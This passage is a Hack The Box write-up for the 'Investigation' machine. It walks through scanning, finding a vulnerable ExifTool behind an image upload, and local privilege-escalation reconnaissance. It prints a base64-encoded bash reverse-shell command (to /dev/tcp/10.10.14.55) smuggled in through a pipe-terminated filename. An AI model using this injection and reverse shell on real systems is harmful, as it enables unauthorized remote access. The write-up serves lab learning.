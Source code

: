  ![image](https://user-images.githubusercontent.com/87700008/221355489-6f404be9-6582-460a-aa3d-ecc3eaa1392b.png)

https://app.hackthebox.com/machines/Investigation

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
## Enuemration :

I started with q qucik rustscan & observed only 2 open ports on the network, i.e 22 & 80

![image](https://user-images.githubusercontent.com/87700008/221355635-38b21308-4d60-427d-b5c4-ec39f8a8f594.png)

    - 22 open ssh syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    - 80 open http syn-ack ttl 63 Apache httpd 2.4.41
    
In the port scan results I found a domain as well 'http://eforenzics.htb/' , which I added to /etc/hosts file.
Browsed through the website & found an upload image options for forensics results.

![image](https://user-images.githubusercontent.com/87700008/221406576-cc1c2a20-e482-493c-ba17-fc0e2918370c.png)
![image](https://user-images.githubusercontent.com/87700008/221406588-b3dc4bfe-c879-4ec7-8eab-9c42c94accf1.png)

Then I proceeded with the subdomain scanning of the webserver & found only 1 result in it '/assets'

![image](https://user-images.githubusercontent.com/87700008/221356009-866a66d0-d4ff-4de4-a1b4-e9dd65dca4bd.png)

I then tried to accessing the '/assets' but got 403 error.

Then I tried to upload the .php file in hope to get some shell but the filters are blocking the upload other than .jpg & .png.
I tried many filters to bypass but it wasn't working.

![image](https://user-images.githubusercontent.com/87700008/221406739-726f6087-f029-4b28-9743-1de130451c22.png)

Then after multiple failure I uploaded regular PNG image & it gave the the forensics results of the image.

![image](https://user-images.githubusercontent.com/87700008/221406805-c9dc7b77-bec4-4054-8635-c1008c84b7bb.png)

I observed that the website is using the 'ExifTool ver 12.37' for the image forensics purpose.

![image](https://user-images.githubusercontent.com/87700008/221406990-c08f0376-9fcc-4a3b-ab76-fdbedf912943.png)

Searching the exploit for this version I landed on this [page.](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)
Which states "An attacker can pass a filename that ends with a pipe (|) to exiftool and if it exists on the filesystem, execute it as an operating system command."

I tried the same using burp & to test it I first started the tcpdump & icmp server to check if I get any response from the machine or not. And I got the response from the host.

    sudo tcpdump icmp -i tun0 -v
  
![image](https://user-images.githubusercontent.com/87700008/221408521-4c20505d-9d29-4cd0-96a0-e6e0271fafd1.png)

After the confirmation that the website is responding & exiftool is vulnerable now it's time for the Rev Shell.

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Initial access :

I tried injection the regular bash payload for reverse shell but didn't received any shell, there may be some filters running on the website.
I then encoded the payload in base64 format & appended the decode function after it so that we can execute the payload as well.

    echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41NS81MyAwPiYxCg==' | base64 -d | bash|
    
![image](https://user-images.githubusercontent.com/87700008/221409232-b34266c4-4d49-471a-a7af-78675876e693.png)

This time I received the reverse shell with the user running '**www-data**', then stabilized the shell.

I got a user folder in the home directory 'smorton', but I don't have access for his folder.

![image](https://user-images.githubusercontent.com/87700008/221428367-d7865d17-d9d8-4042-9ee1-887142c1f91b.png)

I then tried to check for the vectors of priv esc but few of the methods are asking for user password which I don't have.
I then ran 'linpeas' to check for possible priv esc vectors, I found a cronjob running from '**/usr/bin/crontab**' which is performing some activity in this folder '**/usr/local/investigation/analysed_log**'

![image](https://user-images.githubusercontent.com/87700008/221429059-806cdb8c-5197-4910-8015-11281a387c52.png)

Then I started digging the '**/usr/local/investigation/**' path & found one .msg file there, i.e. '**Windows Event Logs for Analysis.msg**'
I transferred this file into my machine & checked it's content online as I don't have any email reader in kali machine.

![image](https://user-images.githubusercontent.com/87700008/221429231-eb81053e-d8f8-477c-ae45-a8f9a62f317e.png)

I downloaded the e-mail attachment in my machine as well. After unzipping the attachment I got another file '**security.evtx**' which is a Windows log event file.

![image](https://user-images.githubusercontent.com/87700008/221603664-b818713d-4b2a-4bac-be23-68e844f47e96.png)

I tried to read it's content but it's not in the humand readable format so then I used a script from this [GitHub repo](https://github.com/williballenthin/python-evtx/blob/master/scripts/evtx_dump.py) to dump the file in the humand readable format.

